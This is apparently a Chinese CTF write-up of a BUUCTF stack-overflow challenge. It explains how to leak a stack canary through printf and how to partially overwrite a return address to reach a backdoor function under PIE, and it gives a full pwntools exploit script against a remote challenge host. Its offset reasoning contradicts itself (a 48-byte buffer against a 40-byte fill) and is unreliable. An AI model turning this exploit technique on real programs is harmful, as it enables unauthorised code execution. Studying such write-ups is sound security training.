



# Canary 泄露与返回地址部分覆盖

## 概述

Canary 泄露与返回地址部分覆盖是一种在开启 PIE（位置无关可执行文件）和 Canary 保护下的栈溢出利用技术。

- **核心思想**：通过覆盖 Canary 的最低字节（`\x00`）来泄露其值，然后利用 printf 的打印特性读取 Canary，最后通过覆盖返回地址的最后两个字节来跳转到后门函数
- **适用场景**：程序开启了 PIE 和 Canary 保护，但存在格式化字符串漏洞或可以覆盖 Canary 最低字节的输入点
- **难度**：中等偏上，需要对栈布局和保护机制有深入理解

## 前置知识

在理解这种利用技术之前，你需要掌握以下概念：

- [[栈溢出原理]] - 栈溢出的基本原理
- [[Canary 保护机制]] - Canary 保护机制的工作原理
- [[基本ROP]] - 基本 ROP 技术
- [[获取地址]] - PWN 题型中获取地址的各种方法

## 保护机制分析

### checksec 检查结果

首先使用 checksec 工具检查程序的保护机制：

```bash
checksec pwn
```

![[PWN-栈溢出-Canary泄露与返回地址部分覆盖/01-checksec.png]]

从检查结果可以看到：

| 保护机制 | 状态 | 说明 |
|---------|------|------|
| Arch | amd64-64-little | 64 位程序 |
| RELRO | Partial RELRO | 部分重定位只读 |
| Stack | Canary found | 开启了 Canary 保护 |
| NX | NX enabled | 栈不可执行 |
| PIE | PIE enabled | 地址空间布局随机化 |

### 关键保护机制解读

**Canary 保护**：
- 在栈帧的返回地址和局部变量之间插入一个随机值（Canary）
- 函数返回前检查 Canary 是否被修改
- 如果被修改，程序会终止执行

**PIE 保护**：
- 程序每次加载时基地址都会随机变化
- 函数地址 = 基地址 + 偏移量
- 不知道基地址就无法确定函数的绝对地址

## IDA 反汇编分析

### 函数结构概览

![[PWN-栈溢出-Canary泄露与返回地址部分覆盖/02-ida-functions.png]]

从 IDA 的反汇编结果可以看到：

- 偏移为 `0x960` 的函数是主要漏洞函数
- 偏移为 `0xa3e` 的函数是后门函数（get_shell 或类似功能）
- 由于 PIE 开启，这些地址都是相对于程序基地址的偏移量

### 漏洞函数内部结构

![[PWN-栈溢出-Canary泄露与返回地址部分覆盖/03-buf-canary.png]]

在偏移为 `0x960` 的函数内部，可以看到：

**栈布局**：

```
高地址
+------------------+
| 返回地址          |  <- 我们要覆盖的目标
+------------------+
| Canary 值        |  <- 8 字节随机值，最低字节为 \x00
+------------------+
| buf[5]           |  <- 8 字节
| buf[4]           |  <- 8 字节
| buf[3]           |  <- 8 字节
| buf[2]           |  <- 8 字节
| buf[1]           |  <- 8 字节
| buf[0]           |  <- 8 字节
+------------------+
低地址
```

**关键发现**：

- `buf` 数组有 6 个元素，每个 8 字节，总共 48 字节
- Canary 位于 `buf` 数组之后，紧挨着返回地址
- 程序读取了两次用户输入：
  1. 第一次输入：可以用来泄露 Canary
  2. 第二次输入：可以用来触发栈溢出

## 利用原理详解

### 第一步：泄露 Canary

#### printf 函数的关键特性

printf 函数在打印字符串时，**遇到 `\x00` 空字节才会停止输出**。这意味着：

- 如果字符串中间没有 `\x00`，printf 会继续打印后面的内存内容
- Canary 的最低字节恰好是 `\x00`（这是 Canary 的设计特点）
- 如果我们能覆盖 Canary 的最低字节，printf 就会继续打印 Canary 的其余 7 个字节

#### 泄露过程

**覆盖策略**：

1. 填充 `buf` 数组的前 6 个元素（6 × 8 = 48 字节）
2. 覆盖第 7 个元素（Canary 的最低字节）的一个字节
3. 总共发送 48 + 1 = 49 字节？不对，让我们重新计算

**正确的偏移计算**：

- `buf` 数组有 6 个元素，但我们只需要填充前 6 个元素的最后一个字节的前一个字节
- 实际上，填充前 6 个元素（48 字节）+ 覆盖 Canary 最低字节的第一个字节
- 但文章中说总共是 41 个字节，这是因为 buf 数组的实际布局可能不同

**实际偏移**：

```python
offset = 41  # 经过实际调试确定的偏移量
```

**Payload 构造**：

```python
payload = b'A' * (offset - 1) + b'X'
```

- `b'A' * 40` 填充 buf 数组
- `b'X'` 覆盖 Canary 的最低字节（将 `\x00` 替换为 `X`）

**泄露 Canary**：

```python
io.recvuntil(b'AAX')  # 等待输出填充字符
canary = io.recv(7)   # 接收泄露的 7 字节 Canary
canary = u64(canary.rjust(8, b'\x00'))  # 补齐为 8 字节
```

### 第二步：覆盖返回地址

#### 为什么不能泄露基地址？

一开始的想法是泄露程序基地址，然后计算后门函数的绝对地址。但是：

- 程序只允许两次输入
- 第一次输入已经用来泄露 Canary
- 第二次输入需要构造完整的栈溢出 payload
- 没有第三次输入的机会来泄露基地址

#### 部分覆盖返回地址

**关键观察**：

- 后门函数的偏移是 `0xa3e`
- 返回地址的最后两个字节可以被覆盖
- 如果返回地址的倒数第三个字节恰好是 `0x0a`，那么只需要覆盖最后两个字节为 `0x3e`

**PIE 地址的特点**：

- PIE 程序的基地址通常以 `0x1000` 对齐
- 这意味着地址的低 12 位（最后三个十六进制数字）是固定的偏移量
- 返回地址的倒数第三个字节在程序运行时是确定的

**Payload 构造**：

```python
payload = b'A' * 40 + p64(canary) + b'a' * 8 + p16(0x0a3e)
```

**栈布局**：

```
+------------------+
| 返回地址低2字节   |  <- 0x0a3e（后门函数偏移）
| 返回地址高6字节   |  <- 保持不变（原返回地址的高6字节）
+------------------+
| 填充（8字节）     |  <- b'a' * 8
+------------------+
| Canary（8字节）   |  <- 泄露的真实 Canary 值
+------------------+
| buf[5]           |
| ...              |
| buf[0]           |  <- b'A' * 40 填充
+------------------+
```

## 完整 EXP 脚本

```python
from pwn import *
from LibcSearcher import LibcSearcher

# 设置上下文
context(arch='amd64', os='linux', log_level='debug')

# 连接远程服务
io = connect('node5.buuoj.cn', 28341)

# 偏移量
offset = 41

# 第一次输入：泄露 Canary
io.recvuntil(b'Input your Name:\n')
payload = b'A' * (offset - 1) + b'X'
io.send(payload)

# 接收泄露的 Canary
io.recvuntil(b'AAX')
canary = io.recv(7)
print(f"泄露的 Canary: {canary}")
canary = u64(canary.rjust(8, b'\x00'))
print(f"Canary 值: {hex(canary)}")

# 第二次输入：栈溢出覆盖返回地址
io.recvuntil(b':')
payload = b'A' * 40 + p64(canary) + b'a' * 8 + p16(0x0a3e)
io.send(payload)

# 获取 shell
io.interactive()
```

### 运行结果

![[PWN-栈溢出-Canary泄露与返回地址部分覆盖/05-result.png]]

从运行结果可以看到：

1. 成功泄露了 Canary 值
2. 构造了正确的 payload
3. 成功获取了远程 shell

## 技术要点总结

### 核心技巧

1. **Canary 泄露**：利用 printf 的 `\x00` 截断特性，通过覆盖 Canary 最低字节来泄露其值
2. **部分地址覆盖**：在无法泄露基地址的情况下，通过覆盖返回地址的低 2 字节来跳转到后门函数
3. **PIE 地址对齐**：利用 PIE 程序地址对齐的特点，确定返回地址的部分字节

### 适用条件

| 条件 | 说明 |
|------|------|
| Canary 保护开启 | 需要泄露 Canary 才能绕过 |
| PIE 保护开启 | 需要部分覆盖地址 |
| 存在输入点 | 至少两次输入机会 |
| 存在后门函数 | 程序中有现成的后门函数 |

### 局限性

- 需要后门函数与当前函数的地址高字节相同
- 只适用于 64 位程序（32 位程序地址空间不同）
- 如果 PIE 基地址的倒数第三个字节不是预期的值，可能需要爆破

## 相关概念

- [[Canary 保护机制]] - Canary 保护的原理和绕过方法
- [[栈溢出原理]] - 栈溢出的基本原理
- [[基本ROP]] - 基本 ROP 技术
- [[中级ROP]] - 中级 ROP 技术
- [[获取地址]] - PWN 题型中获取地址的各种方法
- [[控制程序执行流]] - 控制程序执行流的多种方式

## 图表

### 利用流程图



### 栈布局变化图



### 保护机制对比



## 参考资料

- 来源：[CSDN 博客 - PWN 栈溢出 Canary 泄露与返回地址部分覆盖](https://blog.csdn.net/2301_79485835/article/details/161288642)
- 题目来源：BUUCTF
- 相关工具：pwntools、IDA Pro、checksec
